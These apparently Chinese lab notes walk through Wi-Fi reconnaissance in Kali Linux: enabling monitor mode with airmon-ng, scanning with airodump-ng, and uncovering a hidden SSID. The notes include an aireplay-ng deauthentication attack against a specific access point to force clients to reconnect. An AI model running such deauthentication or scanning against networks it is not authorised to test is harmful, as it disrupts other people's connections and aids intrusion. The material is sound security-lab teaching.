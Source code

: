 首先需要将网卡的监听模式开启

在kali Linux下使用命令查看网卡信息。
ifconfig

启动监听模式
```bash
airmon-ng start wlan0
```

启动之前记得检查进程占用：
```bash
airmon-ng check kill
```
如果再次使用ifconfig可以发现，我们的网卡已经被重命名为wlan0mon

开始扫描
```bash
airodump-ng wlan0mon
```
其中wlan0mon是已经激活监听状态的网卡。

被动监听：
通过捕获信标帧直接获取可见SSID：

```bash
airodump-ng wlan0mon --essid "Redmi Note 11T Pro+"
```

主动探测：
向隐藏SSID发送探测请求，触发AP响应：

```bash
aireplay-ng --deauth 10 -a 02:C1:1A:33:26:B8 wlan0mon  # 解除认证攻击迫使设备重连
```
发动前更改信道至目标AP信道
iwconfig wlan0mon channel 13

# 实验二
## 对隐藏了SSID的AP进行探测

从安全的角度来看。隐藏 SSID 会使接入点不可见，但有经验的黑客知道如何找出，而方法有多种。

隐藏 SSID 需要禁用 AP 的 SSID 广播功能。

进行AP设置，转到无线网络设置并选中“隐藏 SSID”。

使用 airodump-ng 确定隐藏网络的 SSID

`airodump-ng wlan0mon`

现在，使用 airodump 扫描网络时，会看到如下内容：

如图，SSID 不可见。  
使用它的 BSSID（mac 地址）运行网络扫描。

`airodump-ng -c 13 --bssid 02:C1:1A:33:26:B8 wlan0mon`
